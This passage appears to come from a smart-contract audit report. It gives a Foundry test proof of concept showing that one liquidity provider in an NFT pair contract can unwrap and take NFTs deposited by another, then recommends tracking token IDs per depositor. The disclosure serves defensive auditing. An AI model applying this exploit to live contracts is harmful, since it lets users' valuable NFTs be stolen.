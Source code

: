 ```
    }

    vm.startPrank(babe);
    for (uint256 j = 2; j < 4; j++) {
        bayc.mint(address(babe), j);
        tokenIds.push(j);
        user2TokenIds.push(j);
    }
    vm.stopPrank();

    for(uint256 k=0; k<4; k++){
        console.log("bayc owner of token", tokenIds[k], bayc.ownerOf(tokenIds[k]));
    }
    pair = createPairScript.create(address(bayc), address(usd), "YEET-mids.json", address(c));
    // proofs = createPairScript.generateMerkleProofs("YEET-mids.json", tokenIds);
    proofs1 = createPairScript.generateMerkleProofs("YEET-mids.json", user1TokenIds);
    proofs2 = createPairScript.generateMerkleProofs("YEET-mids.json", user2TokenIds);
    bayc.setApprovalForAll(address(pair), true);
    pair.wrap(user1TokenIds, proofs1);

    vm.startPrank(babe);
    bayc.setApprovalForAll(address(pair), true);
    pair.wrap(user2TokenIds, proofs2);
    vm.stopPrank();
}

function testItTransfersRandomTokens() public {

    // act
   // NOTE - test contract is sending `babe` minted NFT token Id's for unwrapping
  // exploiter can replace more expensive NFTs with less expensive ones
    pair.unwrap(user2TokenIds);

    // assert
    // asserting ownership change - which is successful
    for (uint256 i = 0; i < user2TokenIds.length; i++) {
        console.log("owner of token", user2TokenIds[i], bayc.ownerOf(user2TokenIds[i]));
        assertEq(bayc.ownerOf(user2TokenIds[i]), address(this), "Should have sent bayc to sender");
    }
}
}
```

### Recommended Mitigation Steps

- `Pairs` contract needs to keep a record of tokenIds submitted by each LP. This can easily be done by keep a mapping (address -> tokenId[])

- When `nftRemove` is called with an array of `tokenId[]`, code should check if the submitted tokenIds are same as the ones deposited during minting

Since all NFT's are unique and have their own price, it is only fair for protocol to protect that uniqueness. For long term credibility, it is imperative for protocol to give back the NFT to its rightful owner.
